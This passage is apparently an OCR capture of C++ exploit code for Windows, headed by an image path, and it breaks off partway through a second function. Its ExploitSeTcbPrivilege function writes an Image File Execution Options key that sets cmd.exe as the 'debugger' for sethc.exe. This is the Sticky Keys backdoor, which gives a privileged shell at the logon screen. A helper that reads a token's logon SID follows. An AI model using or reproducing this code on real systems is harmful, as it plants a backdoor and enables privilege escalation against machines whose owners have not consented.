 ```c++
void ExploitSeTcbPrivilege()
{
	DWORD lResult;
	HKEY hKey;

	LPCWSTR lpCommand = L"\"C:\\Windows\\System32\\cmd.exe\"";

	// Creates the specified registry key.
	lResult = RegCreateKeyExW(
		HKEY_LOCAL_MACHINE,
		L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe",
		0,
		NULL,
		NULL,
		KEY_SET_VALUE,
		NULL,
		&hKey,
		NULL
	);
	if (lResult != ERROR_SUCCESS)
	{
		wprintf(L"[-] RegCreateKeyExW Error: [%u].\n", lResult);
		return;
	}
	// Sets the data and type of a specified value under a registry key.
	lResult = RegSetValueExW(hKey, L"Debugger", 0, REG_SZ, (const BYTE*)lpCommand, (wcslen(lpCommand) + 1) * sizeof(WCHAR));
	if (lResult != ERROR_SUCCESS)
	{
		wprintf(L"[-] RegSetValueExW Error: [%u].\n", lResult);
		return;
	}
	wprintf(L"[*] Set Image File Execution Options for sethc.exe successfully with Debugger as %ws.\n", lpCommand);

	return;
}


BOOL GetLogonSID(HANDLE hToken, PSID* pLogonSid)
{
	BOOL status = FALSE;
	DWORD dwLength = 0;
	PTOKEN_GROUPS pTokenGroups = NULL;

	if (!GetTokenInformation(hToken, TokenGroups, pTokenGroups, 0, &dwLength))
	{
		if (GetLastError() != ERROR_INSUFFICIENT_BUFFER)
		{
			wprintf(L"[-] GetTokenInformation Error: [%u].\n", GetLastError());
			goto Clear;
		}

		pTokenGroups = (PTOKEN_GROUPS)LocalAlloc(LPTR, dwLength);
		if (!GetTokenInformation(hToken, TokenGroups, pTokenGroups, dwLength, &dwLength))
		{
			wprintf(L"[-] GetTokenInformation Error: [%u].\n", GetLastError());
			goto Clear;
		}

		for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
		{
```